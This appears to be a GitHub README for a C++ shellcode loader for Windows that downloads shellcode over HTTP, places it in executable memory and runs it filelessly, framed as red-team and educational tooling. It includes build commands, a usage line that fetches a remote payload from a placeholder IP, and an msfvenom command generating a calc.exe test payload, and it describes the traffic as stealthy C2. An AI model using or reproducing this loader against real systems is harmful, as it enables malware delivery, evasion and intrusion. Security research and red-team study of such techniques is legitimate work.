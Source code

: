 A minimal C++ shellcode loader for Windows written for red team, malware research, and educational purposes.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.

## 📂 Filename

**loader.cpp** – Console-based shellcode loader (C++)

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ loader.cpp -o loader.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
loader.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o enc.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
loader.exe http://127.0.0.1:30001/enc.bin
```
